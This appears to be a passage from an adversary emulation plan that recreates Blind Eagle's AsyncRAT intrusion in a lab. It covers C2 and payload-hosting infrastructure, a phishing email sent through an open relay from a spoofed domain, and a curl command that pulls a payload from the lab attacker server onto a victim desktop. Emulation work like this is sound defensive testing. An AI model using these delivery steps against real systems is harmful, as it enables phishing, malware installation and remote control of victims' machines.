 # Scenario Overview

Legend of symbols:
* :bulb: - callout notes
* :heavy_exclamation_mark: - extremely important note
* :arrow_right: - Switching to another session
* :o: - Sign out of something

---
This scenario emulates Blind Eagle TTPs based on several malware specimens either 
used by or associated with the Blind Eagle actors:

1. AsyncRAT

---
## Step 0 - Setup

### :scroll: Overview

This emulation leverages AsyncRAT as a C2 server, and an attacker controlled web server to host and deliver two loaders, an injector, and the final AsyncRAT payload. 
AsyncRAT server is a Windows .NET GUI based program and will run on an attacker controlled Windows Machine. A second Ubuntu machine will be used as
attacker infrastructure - we use Python to host a simple web server with a directory structure that aligns with CTI and hosts payloads.

:heavy_exclamation_mark: This emulation plan assumes the infratructure found in [setup](../Resources/Setup/README.md) has been completed. If this has not been
done then IP addresses and URLs may change.

:bulb: During the emulation the Exchange server `mail.bancomurcielago.com` was configured as an open relay and an email from `notificacion@dian-info.com` was sent with the PDF [Notificacion De Pago](../Resources/Binaries/Notificacion%20De%20Pago.pdf) attached from the attacker web machine using the Linux `sendemail` program. A corresponding DNS entry for `dian-info.com` was created on the Active Directory Domain Controller `canario` was also created so that the link contained in the PDF would resolve properly.

:heavy_exclamation_mark: If you do not wish to perform these steps downloading the payload `factura-228447578537.pdf.uue` from Attacker Web `192.168.0.5` to Desk1 `10.1.0.5` will also suffice - you can perform the following PowerShell command from a PowerShell prompt on Desk1 during preflights:
```powershell
curl http://192.168.0.5/factura-228447578537.pdf.uue -o ~\Downloads\factura-228447578537.pdf.uue
```

---

### :biohazard: Procedures

* :bulb: RDP, do not SSH, to the Windows Attack Platform `192.168.0.4` hosting the C2 server.


* Open a new terminal window and navigate to where you previously cloned the repo in [setup](../Resources/Setup/README.md). Start the AsyncRAT server:
